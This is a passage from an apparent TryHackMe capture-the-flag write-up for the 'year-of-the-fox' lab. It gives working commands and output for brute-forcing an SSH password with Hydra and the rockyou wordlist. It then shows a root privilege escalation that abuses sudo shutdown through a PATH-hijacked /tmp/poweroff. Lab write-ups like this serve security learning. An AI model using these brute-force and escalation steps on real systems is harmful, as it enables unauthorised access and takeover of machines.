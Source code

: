 Tunnel works. Now i can brute-force SSH from my kali machine for the fox user, which we discovered previously.

```bash
─$ hydra -l fox -P /usr/share/wordlists/rockyou.txt  ssh://127.0.0.1 -s 2222 -I -t64    
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-07 12:11:01
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[2222][ssh] host: 127.0.0.1   login: fox   password: katrina
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 21 final worker threads did not complete until end.
[ERROR] 21 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-07 12:11:06
```
Hydra succesfully brute forced the password, we can use it to autenticate to SSH service.

```bash
fox@year-of-the-fox:~$ id
uid=1000(fox) gid=1000(fox) groups=1000(fox),114(sambashare)
fox@year-of-the-fox:~$ cat user-flag.txt 
THM{REDACTED}
fox@year-of-the-fox:~$ 
```

# Privilege Escalation

First i checked for commands we can run as sudo
```bash
fox@year-of-the-fox:~$ sudo -l
Matching Defaults entries for fox on year-of-the-fox:
   env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
  (root) NOPASSWD: /usr/sbin/shutdown
```

I found [this](https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/sudo-shutdown-poweroff-privilege-escalation) article about abusing shutdown binary to get root.

>If we can execute **"shutdown"** command as root, we can gain access to privileges by overwriting the path of **"poweroff"**.

I followed the steps and got root:

```bash
fox@year-of-the-fox:~$ echo "/bin/bash > /tmp/poweroff"
/bin/bash > /tmp/poweroff
fox@year-of-the-fox:~$ cd /tmp
fox@year-of-the-fox:/tmp$ ls
systemd-private-fb4081ec563e477394e51caedff63066-apache2.service-YaXL2H  systemd-private-fb4081ec563e477394e51caedff63066-systemd-resolved.service-ozvax5  systemd-private-fb4081ec563e477394e51caedff63066-systemd-timesyncd.service-cZ2OUe
fox@year-of-the-fox:/tmp$ echo /bin/sh > /tmp/poweroff
fox@year-of-the-fox:/tmp$ chmod +x /tmp/poweroff 
fox@year-of-the-fox:/tmp$ export PATH=/tmp:$PATH
fox@year-of-the-fox:/tmp$ sudo /usr/sbin/shutdown
 id
uid=0(root) gid=0(root) groups=0(root)
 cat /root/root.txt
```